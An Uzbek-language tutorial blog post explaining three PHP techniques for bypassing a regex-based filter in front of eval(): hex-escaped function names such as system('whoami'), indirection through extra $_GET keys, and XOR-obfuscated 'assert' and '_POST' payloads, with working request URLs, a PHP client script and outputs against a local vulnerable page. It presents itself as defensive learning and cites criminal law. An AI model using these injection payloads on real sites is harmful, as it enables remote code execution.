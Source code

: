 ```yaml
---
title: 'WAFni yorib kirish ( kiberxavfsizlik )'
description: "Axmoqlar uchun ishlab chiqilgan WAF tizimini chetlab o'tish. Saytlar xavfsizligini turli usullarda yorib kirish..."
slug: wafni-yorib-kirish-kiberxavfsizlik
date: August 30, 2022
---
```


Sarflavhani o'zidayoq ko'pchilikni waf o'zi nima degan savol o'ylantirgan bo'lsa kerak.

WAF - Web application firewall ya'ni web saytlarni xss, sql injection, cookie poisoning (cookie orqali zaharlash) kabi hujum turlaridan himoya qiladigan ilova hisoblanadi.
Ushbu ilova orqali siz hattoki teshik tog'oraga aylangan tizimni ham bemalol hujum scriptlarini filtrlash orqali himoya qilishingiz mumkin.

Lekin bu dunyoda xuddi odam immun tizimi kabi mukammal himoya tizimi mavjud emas. Har qanday himoya tizimini yorib o'tishning yo'llari mavjud.

## WAF qanday ishlaydi

WAF oldindan belgilangan filtrlash shartlariga binoan foydalanuvchidan kelayotgan murojaatlar orasidagi ishga tushirish mumkin bo'lgan kodni tozalaydi.

Misol uchun `sayhello` va `system` funsksiyalarini filtrlash. Bunda kritilgan matnda shart uchun qo'shilgan ikkita funksiya nomi bo'lsa xatolik beriladi:

```php

function sayhello( $text ) {
  echo "Salom: $text";
}
if ( ! preg_match('/sayhello|system/', $code ) ) {
	eval( $code );
}else{
	echo 'Ruxsat etilmagan kiritish';
}
```

## Chetlab o'tish

### Birinchi usul

PHPda `string` o'rgaruvchisini e'lon qilish vaqtida ekranizatsiya qilish mumkin. Soddaroq aytganda biz double quote ya'ni " belgisi orasida berilgan maxsus belgilarni chop etishimiz mumkin. Yangi qator ( \n ), tabulator (\t) kabi maxsus belgilarni ko'pchilik ishlatib ko'rgan bo'lsa ham kerak.

Ular orasida belgilarni o'noltilik sanoq tizimida chop etish usuli ham kiritilgan.
Misol "Salom dunyo!" yozuvi:

```php
echo "\x53\x61\x6c\x6f\x6d\x20\x64\x75\x6e\x79\x6f\x21";
```

Qo'shimcha tarzda esa php ham boshqa ko'plab tillardagi kabi o'zgaruvchilarga asoslangan funksiyalarni qo'llab quvvatlaydi.

Misol buyerda `$test` o'zgaruvchisi qavs belgilangach funskiyaga murojaat qilishga o'tyapti:

```php
$test = "sayhello";
$test('Toshmat');
```

Demak bizda o'n oltilik sanoq tizimiga asoslanib chop etish va o'zgaruvchini funsksiyaga murojaat qila olishi orqali yuqoridagi himoyani chetlab o'tish imkoni mavjud.

```php
$code = '"\x73\x61\x79\x68\x65\x6c\x6c\x6f"("test");'; //"sayhello"("test");
```

Natija:

```
Salom: test
```

Yoki ikkinchi funskiya uchun murojaat:

```php
$code = '"\x73\x79\x73\x74\x65\x6d"("whoami");'; //"system"("whoami")
```

Natija:

```
sapper
```

### Ikkinchi usul

Ushbu usul uchun endi himoyani yanada kuchaytiramiz va murojaatlarini `$_GET` so'rovi orqali qabul qilamiz.

```php
$code = $_GET['code'];
if ( ! preg_match('/system|exec|[\"\']/', $code ) ) {
	eval( $code );
}else{
	echo 'Ruxsat etilmagan kiritish';
}
```

E'tibor bergan bo'lsangiz endi kodimizda tirnoq yoki qo'shtirnoqlarni ham filtrlash qo'shildi. Endi biz birinchi usuldan foydala olmaymiz. Lekin boshqa bir yo'l ham mavjud. Massiv asosida chetlab o'tish. Kodimizda `$code` o'rgaruvchisi uchun `$_GET` massivining `code` kalitiga teng qiymatni belgilayapmiz. Lekin massivdagi boshqa kalitlar e'tiborsizligicha qoldirilmoqda.

Demak biz http orqali quyidagi murojaatni amalga oshiramiz.

```
/hole.php?a=sayhello&b=test&code=$_GET[a]($_GET[b]);
```

Bunda `$_GET` massivining `code` elementiga himoyadagi `sayhello` va qo'shtirnoqlar biriktirilmayapti. Uning o'rniga tekshiruvdan tashqarida bo'lgan `a` va `b` elementlarini o'rgaruvchi sifatida belgilash qo'llanilmoqda.

Natija:

```
**Notice**: Use of undefined constant a - assumed 'a' in **hole.php(14) : eval()'d code** on line **1**

**Notice**: Use of undefined constant b - assumed 'b' in **hole.php(14) : eval()'d code** on line **1**
Salom: test
```

### Uchinchi usul

Keling maydalashib o'tirmaylikda `string` imkoniyatlaridan voz kechaylik. Filtrlashdan qochishni dinamik o'rgaruvchi yaratib `assert` orqali tizimga birlashtirib yuboraylik.

PHP da debugging uchun juda ko'p imkoniyatlar mavjud. Assert ham dasturni tekshirish jarayonida ishlatilib shart bajarilmaganda boshqa bir harakatni amalga oshirish uchun qo'llaniladi.

Misol:

```php
<?php
$a = 1;
assert($a == 1, "O'zgaruvchi birga teng emas");
echo "Birinchi amal bajarildi";
assert($a == 2, "O'zgaruvchi birga teng emas");
echo "Ikkinchi amal bajarildi";
```

Bundan `$a` birinchi amalda rost javobini beradi. Chunki o'zgaruvchi birga teng. Ikkinchi amalda esa xatolik kuzatamiz chunki ikkiga teng emas.

```
Birinchi amal bajarildi
Fatal error: Uncaught AssertionError: O'zgaruvchi birga teng emas in code.php:5
Stack trace:
#0 code.php(5): assert(false, 'O'zgaruvchi bir...')
#1 {main}
  thrown in code.php on line 5
```

Demak biz bu usulda assertning shartni bajarish uchun unga murojaat qilish imkonidan foydalanamiz.

Xor operatori orqali esa dinamik belgi yaratamiz.

Misol:

```php
$_POST['_'] = 'sayhello("Toshmat");';
assert($_POST['_']);
```

Natija:

```
Salom: Toshmat
**Warning**: assert(): Assertion "sayhello("Toshmat");" failed in **test.php** on line **26**
```

_Xatolik chiqishiga sabab sayhello funksiyamizdan qayta rost (true) javobi kelmaganida. Lekin assert funksiyani ishga tushirdi_

Dinamik o'zgaruvchi generatsiya qilish uchun esa phpning XOR operatoridan foydalanamiz. Demak shart shunday belgilanishi kerakki ikkita bizga kerakli bo'lmagan belgining xor natijasidan string uchun belgi chiqarishimiz kerak.

```php
<?php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_]);
```

Yuqoridagi kodda xor sharti orqali dinamik o'zgaruvchi funksiya yaratilib uning argumenti sifatida `$_POST` so'rovidan kelgan `_` kalitiga teng qiymat belgilanmoqda.

Demak sahifaga murojaat qilish:

```
/hole.php?code=$_=(%27%01%27^%27`%27).(%27%13%27^%27`%27).(%27%13%27^%27`%27).(%27%05%27^%27`%27).(%27%12%27^%27`%27).(%27%14%27^%27`%27);$__=%27_%27.(%27%0D%27^%27]%27).(%27%2F%27^%27`%27).(%27%0E%27^%27]%27).(%27%09%27^%27]%27);$___=$$__;$_($___[_]);
```

```php
<?php

$postdata = http_build_query(
    array(
        '_' => 'sayhello("Toshmat");',
    )
);
$opts = array('http' =>
    array(
        'method'  => 'POST',
        'header'  => 'Content-Type: application/x-www-form-urlencoded',
        'content' => $postdata
    )
);

$context  = stream_context_create($opts);

$result = file_get_contents('http://localhost/hole.php?code=$_=(%27%01%27^%27`%27).(%27%13%27^%27`%27).(%27%13%27^%27`%27).(%27%05%27^%27`%27).(%27%12%27^%27`%27).(%27%14%27^%27`%27);$__=%27_%27.(%27%0D%27^%27]%27).(%27%2F%27^%27`%27).(%27%0E%27^%27]%27).(%27%09%27^%27]%27);$___=$$__;$_($___[_]);', false, $context);

echo strip_tags( html_entity_decode( $result ) );
```

Natija:

```
Notice:  Use of undefined constant _ - assumed '_' in test.php(10) : eval()'d code on line 2
Salom: Toshmat
Warning:  assert(): Assertion "sayhello("Toshmat");" failed in test.php(10) : eval()'d code on line 2
```

## Xulosa

Yuqoridagi uchta usul bu shunchaki sizning kelajakdagi loyihalaringiz himoyasini ta'minlash uchun ko'rsatildi xolos. Sizdan iltimos qilib so'ragan bo'lardimki ushbu o'rgangan bilimlaringizni kimgadir zarar yetkazish maqsadida qo'llamang.

Bunday harakatlar uchun O'zbekiston Respublikasini Jinoyat kodeksining 278-moddasi 5-bandida ham alohida ogohlantirishlar berilgan.

> Kompyuter sabotaji
> O‘zganing kompyuter uskunasini yoki xizmatda
> foydalaniladigan kompyuter uskunasini qasddan ishdan chiqarish, xuddi
> shuningdek kompyuter tizimini buzish (kompyuter sabotaji) — uch
> yilgacha muayyan huquqdan mahrum qilib, bazaviy hisoblash miqdorining
> uch yuz baravaridan to‘rt yuz baravarigacha miqdorda jarima yoki ikki
> yilgacha ozodlikni cheklash yoxud ikki yilgacha ozodlikdan mahrum
> qilish bilan jazolanadi.
